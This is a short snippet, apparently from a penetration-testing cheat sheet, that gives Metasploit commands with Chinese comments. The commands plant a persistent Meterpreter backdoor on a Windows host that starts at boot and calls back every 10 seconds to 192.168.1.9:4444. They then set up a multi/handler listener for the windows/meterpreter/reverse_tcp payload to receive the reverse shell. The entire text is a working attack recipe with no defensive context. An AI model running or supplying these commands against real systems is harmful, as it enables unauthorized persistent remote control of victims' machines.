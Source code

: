 	Meterpreter>run persistence -X -i 10 -r 192.168.1.9 -p 4444
	-X系统启动时运行
	-i每隔10秒尝试连接服务端
	连接后门
	Msf>use exploit/multi/handler
	Msf>set payload windows/meterpreter/reverse_tcp
	Msf>set lhost 192.168.1.1
	Msf>set lport 4444
	Msf>run